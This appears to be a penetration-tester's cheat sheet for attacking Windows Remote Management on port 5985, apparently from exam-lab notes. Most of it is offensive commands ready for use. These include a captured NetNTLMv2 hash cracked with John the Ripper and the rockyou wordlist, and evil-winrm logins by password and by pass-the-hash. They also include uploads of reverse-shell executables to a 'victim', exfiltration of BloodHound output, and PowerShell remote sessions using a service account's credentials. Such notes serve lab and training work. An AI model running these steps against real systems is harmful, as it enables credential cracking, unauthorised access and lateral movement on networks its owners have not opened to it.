 # (5985) WinRM

<details>

<summary>Uses</summary>

* Remotely communicate and interface with hosts

- Execute commands remotely on systems that are not local to you but are network accessible

* Monitor, manage and configure servers, operating systems and client machines from a remote location

</details>

<details>

<summary>Cracking NetNTLMv2 hashes for login</summary>

```bash
echo "Administrator::DESKTOPH3OF232:1122334455667788:7E0A87A2CCB487AD9B76C7B0AEAEE133:0101000000000000005F3214B534D
801F0E8BB688484C96C0000000002000800420044004F00320001001E00570049004E002D004E0048004500
3800440049003400410053004300510004003400570049004E002D004E00480045003800440049003400410
05300430051002E00420044004F0032002E004C004F00430041004C0003001400420044004F0032002E004C
004F00430041004C0005001400420044004F0032002E004C004F00430041004C0007000800005F3214B534D
801060004000200000008003000300000000000000001000000002000000C2FAF941D04DCECC6A7691EA926
30A77E073056DA8C3F356D47C324C6D6D16F0A0010000000000000000000000000000000000009002000630
06900660073002F00310030002E00310030002E00310034002E00320035000000000000000000" >
hash.txt
```

```
john -w=/usr/share/wordlists/rockyou.txt hash.txt
```

</details>

<details>

<summary>Evil-winrm for login</summary>

* Using password:

```bash
evil-winrm -i 10.129.136.91 -u administrator -p badminton
```

* Using hash:

```bash
evil-winrm -i 10.11.1.21 -u pete -H 0f951bc4fdc5dfcd148161420b9c6207
```

* Uploading files to Victim

```bash
upload reverse_139.exe
```

</details>

<details>

<summary>Upload/Download files (Evil-Winrm)</summary>

### Download (have to put full file paths)

```bash
download c:\temp\20230511182430_BloodHound.zip /oscp/ad/20230511182430_BloodHound.zip
```

### Upload (doesn't need full file paths)

```bash
upload reverse.exe
```

</details>

<details>

<summary>Enter-PSSession</summary>

```powershell
$cred = New-Object System.Management.Automation.PSCredential ("cowmotors\svc_web", $password)

$session = Enter-PSSession -computername "WEB02" -credential $cred

$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist "cowmotors.com\svc_web",$passwd
```

</details>
